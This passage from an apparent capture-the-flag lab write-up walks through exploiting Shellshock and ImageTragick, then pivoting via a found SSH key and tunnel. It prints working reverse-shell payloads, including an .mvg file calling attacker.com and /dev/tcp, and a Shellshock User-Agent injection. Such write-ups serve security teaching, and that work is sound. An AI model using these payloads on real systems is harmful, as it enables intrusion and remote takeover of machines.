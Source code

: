 **Purpose**: Identify web directories, confirm virtual host routing, and detect WAF presence.

### 3. Shellshock Vulnerability Exploitation

**Technique**: Exploiting the Shellshock vulnerability (CVE-2014-6271) in a CGI script.

**Details**:
- Discovered `/cgi-bin/stats` on `beehive.direct.ih.db`, which returned Bash version 4.3, known to be vulnerable to Shellshock.
- Attempted Shellshock exploitation by modifying the User-Agent header in Burp Suite Repeater to `() { :;}; echo; /bin/whoami`, but the WAF blocked it due to specific signatures (e.g., `() {`).
- Failed to bypass WAF after fuzzing attempts, indicating a potential rabbit hole.

**Purpose**: Attempt to gain initial code execution on the beehive host via Shellshock, though blocked by WAF.

### 4. ImageTragick Vulnerability Exploitation

**Technique**: Exploiting ImageTragick (CVE-2016-3714) via file upload on `calvin.direct.ih.db`.

**Details**:
- Discovered `/uploads` on `calvin.direct.ih.db` with an image upload feature.
- Noted a hint in the form of "tragedy masks" referencing ImageTragick, a vulnerability in ImageMagick allowing command injection via malicious image files.
- Created a malicious `.mvg` file with a payload for a reverse shell: `fill 'url(https://attacker.com|setsid /bin/bash -i >& /dev/tcp/[ATTACKER-IP]/443 0>&1)'`.
- Uploaded the file via Burp Suite, correcting an encoding issue (hex 22 for quotes) from a CloudFlare blog reference.
- Successfully triggered a reverse shell to the attacker's machine (`[ATTACKER-IP]:443`), gaining access to the calvin container.

**Purpose**: Gain a reverse shell on the calvin container by exploiting ImageTragick.

### 5. Pivoting to Bastion Host

**Technique**: Using SSH key for lateral movement and network pivoting.

**Details**:
- On the calvin container (IP: 172.23.0.11), found a hidden `.secrets` directory containing `bastion_key`.
- Used the key to SSH into `[TARGET-IP]:1022`, landing on the bastion host (dual-homed with IPs 172.23.0.253 and 172.24.0.253).
- Confirmed bastion host connects to both 172.23.0.0/24 and 172.24.0.0/24 networks, allowing access to other containers.

**Purpose**: Pivot from calvin to the bastion host for further network exploration.

### 6. Accessing the Beehive Container

**Technique**: SSH tunneling and Shellshock exploitation on the beehive container.

**Details**:
- On the bastion host, set up an SSH tunnel using `~C` and `-L 8001:172.24.0.2:80` to forward traffic to the beehive container.
- Accessed `http://localhost:8001/cgi-bin/stats` and successfully exploited Shellshock (no WAF interference) with a reverse shell payload: `() { :;}; /bin/bash -i >& /dev/tcp/172.24.0.253/8002 0>&1`.
- Gained a reverse shell on the beehive container, confirmed by spawning a Python TTY shell.
